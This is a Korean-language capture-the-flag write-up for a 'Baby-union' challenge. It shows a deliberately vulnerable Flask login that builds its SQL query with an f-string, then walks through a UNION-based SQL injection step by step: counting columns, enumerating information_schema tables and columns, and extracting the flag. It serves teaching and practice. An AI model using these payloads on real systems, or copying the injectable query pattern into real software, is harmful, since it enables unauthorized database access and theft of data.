

# Baby-union

SQL injection

```python
import os
from flask import Flask, request, render_template
from flask_mysqldb import MySQL
  
app = Flask(__name__)
app.config['MYSQL_HOST'] = os.environ.get('MYSQL_HOST', 'localhost')
app.config['MYSQL_USER'] = os.environ.get('MYSQL_USER', 'user')
app.config['MYSQL_PASSWORD'] = os.environ.get('MYSQL_PASSWORD', 'pass')
app.config['MYSQL_DB'] = os.environ.get('MYSQL_DB', 'secret_db')
mysql = MySQL(app)
  
@app.route("/", methods = ["GET", "POST"])
def index():
	  
	if request.method == "POST":
		uid = request.form.get('uid', '')
		upw = request.form.get('upw', '')
		if uid and upw:
			cur = mysql.connection.cursor()
			cur.execute(f"SELECT * FROM users WHERE uid='{uid}' and upw='{upw}';")
			data = cur.fetchall()
			if data:
				return render_template("user.html", data=data)
			  
			else: return render_template("index.html", data="Wrong!")
		  
		return render_template("index.html", data="Fill the input box", pre=1)
	return render_template("index.html")
  
 
if __name__ == '__main__':
	app.run(host='0.0.0.0')
```


```sql
CREATE DATABASE secret_db;
GRANT ALL PRIVILEGES ON secret_db.* TO 'dbuser'@'localhost' IDENTIFIED BY 'dbpass';

USE `secret_db`;
CREATE TABLE users (
	idx int auto_increment primary key,
	uid varchar(128) not null,
	upw varchar(128) not null,
	descr varchar(128) not null
);
  
INSERT INTO users (uid, upw, descr) values ('admin', 'apple', 'For admin');
INSERT INTO users (uid, upw, descr) values ('guest', 'melon', 'For guest');
INSERT INTO users (uid, upw, descr) values ('banana', 'test', 'For banana');

FLUSH PRIVILEGES;
  
CREATE TABLE fake_table_name (
	idx int auto_increment primary key,
	fake_col1 varchar(128) not null,
	fake_col2 varchar(128) not null,
	fake_col3 varchar(128) not null,
	fake_col4 varchar(128) not null
);
  
INSERT INTO fake_table_name (fake_col1, fake_col2, fake_col3, fake_col4) values ('flag is ', 'DH{sam','ple','flag}');
```

1. 로그인 되는 데이터 확인
	1. admin, apple
	2. guest, melon
	3. banana, test
2. sql injection 되는지 확인
	1. `cur.execute(f"SELECT * FROM users WHERE uid='{uid}' and upw='{upw}';")`
		- 해당 코드에서 sql injection 가능
3. 컬럼 수 확인 
	1. secret_db 에서 4개 컬럼이 있지만 실제로도 같은지 확인
	2. `admin' order by '1';--`
	3. 에러뜰때까지 숫자 증가
	4. ‘5’에서 에러 생기므로 실제로도 4개 컬럼 존재함
4. union 해서 값이 읽히는지 확인
	1. `admin' union select '1','2','3', @@version;--`
		- user column 에 맞게 union 사용
	2. 
5. table 이름 확인
	1. `*' or 1 union select "1", "2", "3", table_name from information_schema.tables ;--`
	2. 
	3. users, onlyflag 확인 가능
6. onlyflag 내 컬럼 확인
	1. `*' or 1 union select "1", "2", "3", column_name from information_schema.columns where table_name='onlyflag' ;--`
	2. 
	3. idx(idx), sname(fake_col1), svalue(fake_col2), sflag(fake_col3), sclose(fake_col4)
7. flag 확인
	1. `*' or 1 union select svalue, sflag, "3", sclose from onlyflag;--`
		- `INSERT INTO fake_table_name (fake_col1, fake_col2, fake_col3, fake_col4) values ('flag is ', 'DH{sam','ple','flag}');`
		- 필요한 컬럼은 fake_col2, fake_col3, fake_col4 이므로 보이는 컬럼에 맞게 union 사용
	2. 